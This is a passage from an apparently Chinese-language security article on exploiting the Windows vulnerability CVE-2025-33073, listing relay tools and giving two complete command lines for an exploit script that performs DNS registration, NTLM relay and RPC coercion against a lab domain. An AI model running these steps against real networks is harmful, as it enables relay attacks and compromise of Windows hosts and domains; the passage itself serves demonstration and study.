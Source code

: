 - 绕过现有防护  
：可绕过 Windows 默认的 NTLM 中继防护和部分 EFSRPC 加固。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpSFRQ0ia6RwEdLbSgCR19c1nibEzMqE9tdoNzI3lTqn6FODPyNnJXhksw/640?wx_fmt=png&from=appmsg "")  
  
三、漏洞利用流程及命令示例  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Jvjqp3Onh5HSj7mial4F6yAKfx5C18X3xpayzerwxFqNId2siclwCAMW1xkiaJdyA6icoWpjaqUcCH5YIwjTAPVNJQ/640?from=appmsg "")  
  
  
  
漏洞利用可分为以下几步，配合下列命令即可快速在 Kali Linux 环境中完成演示：  
  
准备环境  
  
安装依赖：  
impacket-ntlmrelayx  
、  
dnstool.py  
（仓库自带）、  
NetExec (NXC)  
 等。  
  
确保  
 Kali 上已有 Pytho  
n3、xterm 等工具。  
  
GUI 演示模式  
```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target CLIENT01.wintastic.local \
  --target-ip 192.168.178.65

```  
  
  该模式会自动在 xterm 中展示 DNS 注册、中继监听、RPC 强制调用等各阶段交互窗口。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/IBqeMoOWia86EaiciaBkwjRlN2FD1AZQYRpDQF14t2tgs7GibDuzviaXf1Yyt1RSibE9LqK8Dkd7HDJkFOLcuO8QcgYg/640?wx_fmt=other&from=appmsg "")  
  
CLI 纯命令模式  
```
python3 CVE-2025-33073.py \
  -u 'wintastic.local\mathijs' \
  -p 'password' \
  --attacker-ip 192.168.178.49 \
  --dns-ip 192.168.178.138 \
  --dc-fqdn DC01.wintastic.local \
  --target CLIENT01.wintastic.local \
  --target-ip 192.168.178.65 \
  --cli-only
  
```  
  